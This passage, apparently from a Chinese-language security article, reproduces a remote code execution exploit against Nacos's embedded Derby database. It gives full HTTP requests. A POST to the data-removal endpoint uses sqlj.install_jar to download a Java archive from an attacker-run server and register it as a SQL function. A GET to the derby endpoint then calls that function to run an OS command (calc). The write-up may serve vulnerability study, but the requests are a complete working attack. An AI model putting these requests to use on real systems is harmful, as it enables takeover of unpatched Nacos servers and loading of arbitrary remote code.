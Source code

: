   
使用python起一个web服务，能够访问到test.jar  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjTx7hFgPqHzFfMaNMgykwgFn3dfSIN9wBM7fBNGjCia8rxwQoa7wAYrFbRZUfgX8r2gl0kfj8mdqg/640?wx_fmt=png&from=appmsg "")  
  
构造请求，加载命令执行jar  
```
POST /nacos/v1/cs/ops/data/removal HTTP/1.1
Host: 192.168.229.1:8848
User-Agent: python-requests/2.32.3
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Length: 489
Content-Type: multipart/form-data; boundary=2a262c4e7ea55d81b1906382912b7422

--2a262c4e7ea55d81b1906382912b7422
Content-Disposition: form-data; name="file"; filename="file"

CALL sqlj.install_jar('http://192.168.244.133:8000/test.jar', 'NACOS.jtZJBFpM', 0)

        CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath','NACOS.jtZJBFpM')

        CREATE FUNCTION S_EXAMPLE_jtZJBFpM( PARAM VARCHAR(2000)) RETURNS VARCHAR(2000) PARAMETER STYLE JAVA NO SQL LANGUAGE JAVA EXTERNAL NAME 'test.poc.Example.exec'

--2a262c4e7ea55d81b1906382912b7422--


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjTx7hFgPqHzFfMaNMgykwgzuN5p0CQTtrtic8QSsnwAAlKqgYte8M9E4784cZWEXYnddkd9wRiajAg/640?wx_fmt=png&from=appmsg "")  
  
- 调用了一个 sqlj.install_jar 存储过程，用于安装一个 JAR 文件。该 JAR 文件被从http://192.168.244.133:8000/test.java下载  
  
- 调用了 SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY 存储过程，将属性 derby.database.classpath 的值设置为 NACOS.bGgDnUtc，使 Derby 数据库能够加载该 JAR 文件  
  
- 创建了一个名为 S_EXAMPLE_jtZJBFpM 的方法。该函数的具体实现是在 Java 类 test.poc.Example 的 exec 方法(因为是条件竞赛，id=jtZJBFpM可能会失效，可以用python随机生成)      
  
访问构造的方法，实现命令执行  
```
GET /nacos/v1/cs/ops/derby?sql=select%20*%20from%20(select%20count(*)%20as%20b%2c%20S_EXAMPLE_jtZJBFpM('calc')%20as%20a%20from%20config_info)%20tmp%20%2f*ROWS%20FETCH%20NEXT*%2f HTTP/1.1
Host: 192.168.229.1:8848
User-Agent: python-requests/2.32.3
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjTx7hFgPqHzFfMaNMgykwgxIkKB8JkCG9WnRLOmRJIkgDrv7soCg1KIP2QTvHUCpibD19Hstv5OibA/640?wx_fmt=png&from=appmsg "")  
  